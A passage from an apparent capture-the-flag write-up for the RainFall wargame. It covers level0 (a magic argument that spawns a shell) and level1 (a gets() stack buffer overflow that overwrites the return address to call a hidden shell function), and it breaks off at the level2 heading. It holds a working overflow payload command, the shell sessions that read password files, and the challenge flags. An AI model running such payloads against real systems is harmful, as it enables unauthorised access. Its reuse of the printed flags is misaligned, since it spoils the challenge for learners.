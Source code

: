 Reverse engineering

## Details of level0

There is a call to `atoi()` that awaits a specific value and regular execution of code calls `execv("/bin/sh")`.

After analysis, the binary except `423` as argument to get our shell.

```shell-session
level0@RainFall:~$ ./level0 423
$ cat /home/user/level1/.pass
1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

# level1
## Type of exploit

Buffer-Overflow of vulnerable function `gets()` + predictability of addresses in the VM.

Overwriting return address with address of uncalled function `run()`.

## Details of level1

`main()` function uses (vulnerable) `gets()` to read stdin. Crashes after 80 characters.

There is an uncalled function in binary (`run()`), that calls a shell.

Its address is found with `info functions` in gdb, address is constant thanks to VM settings (NO ASLR).

We can feed an input to overwrite the return address with the address of `run()` function.

```shell-session
$ echo -n -e '0000000000000000000000000000000000000000000000000000000000000000000000000000\x44\x84\x04\x08' > injectme
$ cat /tmp/injectme | ./level1
Good... Wait what?
Segmentation fault (core dumped)
$ cat /tmp/injectme - | ./level1

Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

^C
Segmentation fault (core dumped)
```

# level2
## Type of exploit
